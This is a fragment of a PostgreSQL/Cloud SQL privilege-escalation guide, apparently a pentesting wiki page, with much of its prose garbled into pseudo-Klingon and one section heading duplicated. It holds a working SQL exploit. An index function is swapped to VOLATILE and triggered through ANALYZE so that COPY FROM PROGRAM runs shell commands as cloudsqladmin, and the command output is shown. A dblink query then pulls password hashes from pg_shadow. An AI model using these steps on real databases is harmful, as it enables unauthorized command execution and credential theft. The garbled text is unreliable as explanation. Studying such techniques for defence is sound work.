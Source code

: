 1. QaD lo'laHbe' table.
2. table vItlhutlh irrelevant content Insert to index function data jatlh.
3. malicious index function vItlhutlh code execution payload vItlhutlh, unauthorized commands executed vItlhutlh.
4. ALTER table's owner "cloudsqladmin" vItlhutlh, GCP's superuser role exclusively used by Cloud SQL to manage and maintain the database.
5. ANALYZE operation table vItlhutlh. PostgreSQL engine vItlhutlh user context table's owner "cloudsqladmin" vItlhutlh switch. Consequently, malicious index function vItlhutlh permissions "cloudsqladmin" vItlhutlh called, previously unauthorized shell command executed vItlhutlh.

PostgreSQL, vItlhutlh flow vItlhutlh:
```sql
CREATE TABLE temp_table (data text);
CREATE TABLE shell_commands_results (data text);

INSERT INTO temp_table VALUES ('dummy content');

/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql IMMUTABLE AS 'select ''nothing'';';

CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

ALTER TABLE temp_table OWNER TO cloudsqladmin;

/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';';

ANALYZE public.temp_table;
```
DaH, 'shell_commands_results' jatlh 'ej code jatlhlaHbe'lu'chugh, jatlhlaHbe'lu'chugh.
```
uid=2345(postgres) gid=2345(postgres) groups=2345(postgres)
```
### Local Login

Some misconfigured postgresql instances might allow login of any local user, it's possible to local from 127.0.0.1 using the **`dblink` function**:

### qo'noS Login

Some misconfigured postgresql instances might allow login of any local user, it's possible to local from 127.0.0.1 using the **`dblink` function**:
```sql
\du * # Get Users
\l    # Get databases
SELECT * FROM dblink('host=127.0.0.1
port=5432
user=someuser
password=supersecret
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```
{% hint style="warning" %}